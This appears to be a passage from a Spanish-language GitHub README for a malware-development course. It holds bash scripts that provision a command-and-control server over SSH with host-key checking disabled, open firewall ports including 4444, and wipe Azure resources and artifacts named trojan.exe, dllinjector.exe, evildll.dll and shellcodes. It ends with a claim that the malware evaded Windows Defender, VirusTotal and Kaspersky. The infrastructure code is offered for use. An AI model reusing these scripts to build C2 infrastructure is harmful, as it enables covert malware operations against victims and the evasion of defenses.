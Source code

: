 ```bash
sed -i "s/user/$user/" setup.sh
yes|scp -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" setup.sh $user@$c2ip:/home/$user/setup.sh > /dev/null 2>&1
yes|scp -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" Test.zip $user@$c2ip:/home/$user/Test.zip > /dev/null 2>&1

echo "[+] Setting up C2 server..."
yes|ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" $user@$c2ip "chmod +x /home/$user/setup.sh && bash /home/$user/setup.sh" > /dev/null 2>&1

echo "[+] Done!"
echo "[+] Connect with: ssh -o 'UserKnownHostsFile=/dev/null' -o 'StrictHostKeyChecking=no' $user@$c2ip"
```

- Script PoC-maldev/setup.sh
```bash
#!/bin/bash

ip="192.168.100.20"
user=$(whoami | sed 's/\n//g')
sudo apt-get update && sudo apt-get full-upgrade -y && sudo apt-get install python3-pip unzip -y
echo "export PATH=/home/$user/.local/bin:$PATH" >> /home/$user/.bashrc
python3 -m pip install --upgrade pip
python3 -m pip install Pillow numpy
unzip Test.zip && rm Test.zip
gcc -o Servers/server2 Servers/server.c
sudo ufw allow from $ip proto tcp to any port 22
sudo ufw allow from $ip proto tcp to any port 80
sudo ufw allow from $ip proto tcp to any port 443
sudo ufw allow from $ip proto tcp to any port 4444
yes|sudo ufw enable
```

- Script PoC-maldev/rmrsrc.sh
```bash
#!/bin/bash

echo "Deleting CrashCourseMaldev resource group..."
az group delete --name CrashCourseMaldev --yes --verbose
echo "Deleting NetworkWatcherRG resource group..."
az group delete --name NetworkWatcherRG --yes --verbose
echo "Deleting DefaultResourceGroup-EUS resource group..."
az group delete --name DefaultResourceGroup-EUS --yes --verbose
echo "Deleting all generated files"
rm Part1/{pornhublsb.png,resources.o,trojan.exe} Part2/{dllinjector.exe,evildll.dll} Part3/client.exe Shellcodes/* Test.zip
rm $HOME/.ssh/{id_rsa,id_rsa.pub}
```

Escaneo de malware sin ser detectado en Diciembre del 2022 en :
- [AntiScanMe](https://antiscan.me)
- [Windows Defender](https://www.microsoft.com/es-mx/windows/comprehensive-security)
- [VirusTotal](https://www.virustotal.com)
- [Kaspersky](https://latam.kaspersky.com/)

